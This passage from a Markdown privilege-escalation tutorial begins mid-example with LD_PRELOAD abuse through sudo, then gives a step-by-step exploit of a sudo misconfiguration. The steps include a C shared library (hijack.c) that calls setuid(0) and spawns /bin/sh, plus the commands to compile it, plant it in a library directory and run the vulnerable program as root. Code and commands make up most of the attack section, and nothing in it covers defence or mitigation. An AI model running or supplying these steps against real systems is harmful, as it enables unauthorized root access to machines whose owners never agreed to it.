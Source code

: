    Compile the shared library:

   ```bash
   gcc -shared -o preload.so -fPIC preload.c
   ```

2. **Run a Program with Sudo and LD_PRELOAD:**

   ```bash
   sudo LD_PRELOAD=./preload.so some_command
   ```

   If `sudo` does not sanitize `LD_PRELOAD`, this would elevate privileges and launch a shell with root privileges.

### Example: Exploiting Sudo Misconfigurations

If a `sudo` configuration allows running a vulnerable program, you can potentially exploit it. For example, if `sudo` is configured to allow running a program that uses a shared library from an untrusted directory:

1. **Check Sudoers Configuration:**

   ```bash
   sudo -l
   ```

   Look for misconfigurations allowing unrestricted access or running specific programs as root.

2. **Create a Malicious Shared Library:**

   ```c
   // hijack.c
   #include <stdio.h>
   #include <stdlib.h>

   void hijacked_function() {
       printf("Hijacked function called!\n");
       setuid(0);
       system("/bin/sh");
   }
   ```

   Compile the malicious library:

   ```bash
   gcc -shared -o libtarget.so -fPIC hijack.c
   ```

3. **Place the Malicious Library in the Target Directory:**

   ```bash
   sudo cp libtarget.so /path/to/untrusted/directory
   ```

4. **Run the Vulnerable Program:**

   ```bash
   sudo /path/to/vulnerable_program
   ```
